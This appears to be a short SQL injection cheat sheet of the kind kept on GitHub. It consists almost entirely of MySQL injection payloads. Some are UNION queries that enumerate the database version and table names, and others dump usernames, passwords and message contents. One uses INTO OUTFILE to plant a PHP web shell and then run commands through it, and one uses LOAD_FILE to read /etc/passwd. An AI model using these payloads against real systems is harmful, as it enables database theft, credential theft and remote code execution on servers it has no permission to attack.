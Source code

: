 # uploading File with Mysql

Basic:
```
<VALUE>' union select 1, @@version-- -
```
```
<VALUE>' union select 1, table_name FROM information_schema.tables-- -
```

> uploading:
```
<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#
```

> then go to http://example.com/shell.php?cmd=`<exec>`

# List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
# read files
1: 
```
'union select 1,LOAD_FILE('/etc/passwd') from webapp.queue-- -
```
